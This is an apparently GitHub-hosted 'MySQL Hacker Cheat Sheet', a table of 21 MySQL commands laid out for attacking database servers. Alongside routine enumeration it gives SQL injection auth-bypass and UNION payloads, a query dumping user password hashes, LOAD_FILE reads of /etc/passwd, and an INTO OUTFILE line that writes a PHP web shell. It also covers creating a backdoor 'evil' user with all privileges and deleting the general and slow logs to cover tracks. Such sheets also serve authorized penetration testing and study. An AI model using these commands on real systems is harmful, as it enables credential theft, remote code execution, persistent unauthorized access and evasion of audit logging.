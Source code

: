 # MySQL

🛡️ MySQL Hacker Cheat Sheet&#x20;

<table><thead><tr><th width="41">🔢 #</th><th>🧭 Category</th><th>💻 Command / Query</th><th>📝 Purpose</th></tr></thead><tbody><tr><td>1</td><td><strong>Session Info</strong></td><td><code>SELECT USER(), CURRENT_USER();</code></td><td>Show connected and authenticated user</td></tr><tr><td>2</td><td></td><td><code>SELECT @@hostname;</code></td><td>Show server hostname</td></tr><tr><td>3</td><td></td><td><code>SHOW GRANTS;</code></td><td>View current user privileges</td></tr><tr><td>4</td><td><strong>Enumerate DBs</strong></td><td><code>SHOW DATABASES;</code></td><td>List all databases</td></tr><tr><td>5</td><td></td><td><code>USE database_name;</code></td><td>Select a database</td></tr><tr><td>6</td><td></td><td><code>SHOW TABLES;</code></td><td>List tables in selected DB</td></tr><tr><td>7</td><td></td><td><code>DESCRIBE tablename;</code></td><td>Describe table columns</td></tr><tr><td>8</td><td></td><td><code>SELECT * FROM tablename;</code></td><td>Dump data from a table</td></tr><tr><td>9</td><td></td><td><code>SELECT table_schema, table_name, column_name FROM information_schema.columns;</code></td><td>Discover all DB schema info</td></tr><tr><td>10</td><td><strong>Credentials Dump</strong></td><td><code>SELECT user, host, authentication_string FROM mysql.user;</code></td><td>Dump MySQL users and password hashes</td></tr><tr><td>11</td><td><strong>SQL Injection</strong></td><td><code>' OR 1=1 --</code></td><td>Classic auth bypass</td></tr><tr><td>12</td><td></td><td><code>' UNION SELECT null, user(), version(), database() --</code></td><td>Union-based injection</td></tr><tr><td>13</td><td><strong>File Access</strong></td><td><code>SELECT LOAD_FILE('/etc/passwd');</code></td><td>Read server-side file (if allowed)</td></tr><tr><td>14</td><td></td><td><code>SELECT "&#x3C;?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php';</code></td><td>Write a PHP web shell</td></tr><tr><td>15</td><td><strong>User Creation</strong></td><td><code>CREATE USER 'evil'@'%' IDENTIFIED BY 'hackpass';</code></td><td>Create new malicious user</td></tr><tr><td>16</td><td></td><td><code>GRANT ALL PRIVILEGES ON *.* TO 'evil'@'%' WITH GRANT OPTION;</code></td><td>Give full access</td></tr><tr><td>17</td><td></td><td><code>FLUSH PRIVILEGES;</code></td><td>Reload privilege tables</td></tr><tr><td>18</td><td><strong>Permissions Check</strong></td><td><code>SHOW VARIABLES LIKE 'secure_file_priv';</code></td><td>Check file I/O restrictions</td></tr><tr><td>19</td><td></td><td><code>SHOW VARIABLES LIKE 'load_file';</code></td><td>Check if file loading is allowed</td></tr><tr><td>20</td><td><strong>Log Tampering</strong></td><td><code>DELETE FROM mysql.general_log;</code></td><td>Clear general logs</td></tr><tr><td>21</td><td></td><td><code>DELETE FROM mysql.slow_log;</code></td><td>Clear slow logs</td></tr></tbody></table>


